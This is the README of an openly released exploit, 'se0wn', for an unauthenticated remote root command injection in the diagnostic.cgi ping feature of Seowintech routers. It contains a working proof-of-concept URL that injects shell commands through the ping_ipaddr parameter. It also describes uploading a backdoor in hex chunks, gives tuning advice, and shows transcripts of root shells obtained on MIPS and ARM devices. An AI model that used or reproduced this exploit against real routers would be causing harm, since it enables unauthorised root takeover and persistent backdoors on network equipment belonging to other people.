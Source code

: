# Exploit for Seowintech Routers diagnostic.cgi Unauthenticated Remote Root Code Execution

This is an exploit for an old bug, found the exploit code lurking around in one of my old hard drives, cleaned it up, and decided to release it. Basically, a long while back, a rather interesting exploit was disclosed which affected
*ALL* Seowontech devices. Technically, it is two exploits. A remote root command injection bug, and a remote root file disclosure bug. In this, I only bother with the command injection bug. These vulnerabilities were found by one Todor Donev.  
The bug we are abusing is quite simple. Like many router bugs, it exists in a CGI script, that is used for network diagnostics. It is the bit for pinging that is vulnerable to our abuse.  

PoC:  
```
http://target.com/cgi-bin/diagnostic.cgi?select_mode_ping=on&ping_ipaddr=-q -s 0 127.0.0.1;id;&ping_count=1&action=Apply&html_view=ping
```
As you can see, the "ping_ipaddr" GET variable accepts arguments, and we can inject a command here. Essentially those are passed to a system call and executed without any sanitization. Internet of junk, people.

These devices are MIPS (UPDATE: Was just informed some are ARM, to add to the fucking confusion, by one of the exploit testers. Use the command injection to validate what the hell you are hacking.) Busybox devices, which is basically a stripped  down, castrated, Linux. They are quite useful though ;). These devices do not have a compiler on them (what a surprise), and like most routers, changes that don't get written to nvram are not stored across reboots.

You might notice I do NOT include a payload this time around - yet - you are expected to go build your own. Whatever MIPS/ARMv5l payload you like, be it MSF generated or whatever, idk. I personally used a cross compiled version of tshd by Christopher Devine with a few modifications when testing it out. Instead of being super lame and just straight up wgetting my payload down - I split it into chunks and echo -ne it as hex into a file on the device. This leads to increased reliability and general leetness, however, it also means you will be waiting forever for the bloody thing to upload.

Also note, you MAY need to swap /var/tmp for /tmp on the ARM targets. I might even write in some autodetection logic for this in a later version. Bloody inconsistent devices...

## Usage:
To use, simply specify the target routers base URL, and a MIPS executable to upload and execute.

Example Usage (MIPS target):
```
[balor@magh-meall exploits]$ python2 /tmp/se0wn.py http://seowintech.test /tmp/payload.bin 

███████╗███████╗ ██████╗ ██╗    ██╗███╗   ██╗███████╗██████╗ 
██╔════╝██╔════╝██╔═████╗██║    ██║████╗  ██║██╔════╝██╔══██╗
███████╗█████╗  ██║██╔██║██║ █╗ ██║██╔██╗ ██║█████╗  ██║  ██║
╚════██║██╔══╝  ████╔╝██║██║███╗██║██║╚██╗██║██╔══╝  ██║  ██║
███████║███████╗╚██████╔╝╚███╔███╔╝██║ ╚████║███████╗██████╔╝
╚══════╝╚══════╝ ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝╚══════╝╚═════╝ 
Exploit for Seowintech Routers, CVE-?. Version: 20150425.1
{+} Uploading our backdoor...
{*} Backdoor is in 237 chunks...
100% |#########################################################################################################################################################################################|
{+} Setting execute bit...
{+} Executing Payload...
[balor@magh-meall exploits]$ /tmp/bdcli seowintech.test '/bin/sh -i'


BusyBox v1.4.2 (2011-05-19 09:28:26 KST) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

/var/htdocs/cgi-bin # id;uname -mrs
uid=0(root) gid=0(wheel)
Linux 2.6.20.21-pmc mips
/var/htdocs/cgi-bin # ls /
bin        flash      lib        mnt        ramfs.img  sbin       tmp
dev        home       linuxrc    nfs        rom        sys        usr
etc        htdocs     local      proc       root       temp       var
/var/htdocs/cgi-bin # :)
/var/htdocs/cgi-bin # exit
[balor@magh-meall exploits]$
```

Example Usage (ARM target):
```
~$ python se0wn.py http://seowon-arm.test /tmp/payload.arm.bin 

███████╗███████╗ ██████╗ ██╗    ██╗███╗   ██╗███████╗██████╗ 
██╔════╝██╔════╝██╔═████╗██║    ██║████╗  ██║██╔════╝██╔══██╗
███████╗█████╗  ██║██╔██║██║ █╗ ██║██╔██╗ ██║█████╗  ██║  ██║
╚════██║██╔══╝  ████╔╝██║██║███╗██║██║╚██╗██║██╔══╝  ██║  ██║
███████║███████╗╚██████╔╝╚███╔███╔╝██║ ╚████║███████╗██████╔╝
╚══════╝╚══════╝ ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝╚══════╝╚═════╝ 
Exploit for Seowintech Routers, CVE-?. Version: 20150425.1
{+} Uploading our backdoor...
{*} Backdoor is in 186 chunks...
100% |#########################################################################################################################################################################################|
{+} Setting execute bit...
{+} Executing Payload...
~$ /tmp/bdcli seowon-arm.test '/bin/sh -i'
# id
uid=0(root) gid=0(root)
# uname -a
Linux seowon-arm 2.6.26.8-rt16 #1 PREEMPT Wed Apr 4 17:38:36 KST 2012 armv5tejl unknown
# exit
~$ 
```

Do note, with larger payloads, you might as well bugger off and get a coffee or something because it takes about 5 minutes to upload the payload. My payload is ~29k and takes ~5-6 minutes. You can tweak the "n=500" variable, I pushed it to 750 so far without issues, and suspect we can go higher.

## Demo
If you want, check out the [Asciicast demo][asciicast]  
[![asciicast](https://asciinema.org/a/19221.png)](https://asciinema.org/a/19221)

## Screenshot
![0wned](https://raw.githubusercontent.com/XiphosResearch/exploits/master/se0wned/screenshots/se0wned.png)

## Licence
Licenced under the [WTFPL][wtfpl]

[asciicast]: https://asciinema.org/a/19221
[wtfpl]: http://www.wtfpl.net/

